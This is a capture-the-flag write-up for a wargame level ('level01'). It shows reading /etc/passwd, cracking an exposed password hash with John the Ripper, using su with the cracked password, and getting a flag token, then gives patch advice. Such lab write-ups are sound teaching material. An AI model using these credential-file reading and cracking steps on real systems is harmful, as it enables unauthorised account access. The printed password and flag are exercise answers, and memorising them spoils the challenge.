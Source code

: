 ## level01

- **How we found it**

  Inspected `/etc/passwd` and noticed `flag01`'s entry contains a password hash instead of `x`:
  
  ```bash
  grep '^flag01:' /etc/passwd
  # → flag01:42hDRfypTqqnw:3001:3001::/home/flag flag01:/bin/bash
  ```

- **How we exploited it**

	**1.** Extract the hash into a file:

	```bash
	echo 'flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash' > flag01.passwd
	```

	**2.** Run John the Ripper (dictionary or incremental):

	```bash
	john flag01.passwd
	john --show flag01.passwd
	# → flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash
	```

	**3.** Switch user and get the flag:
	
	```bash
	su flag01
	# Password: abcdefg
	getflag
	# Check flag. Here is your token: f2av5il02puano7naaf6adaaf

- **Utility of this exerice**

	Demonstrates why password hashes must be kept in /etc/shadow (not world-readable) and how offline cracking works.

- **How to patch**

	- Move all hashes to /etc/shadow and ensure /etc/passwd contains only x placeholders.

	- Enforce strong password policies to make brute‑force/dictionary attacks infeasible.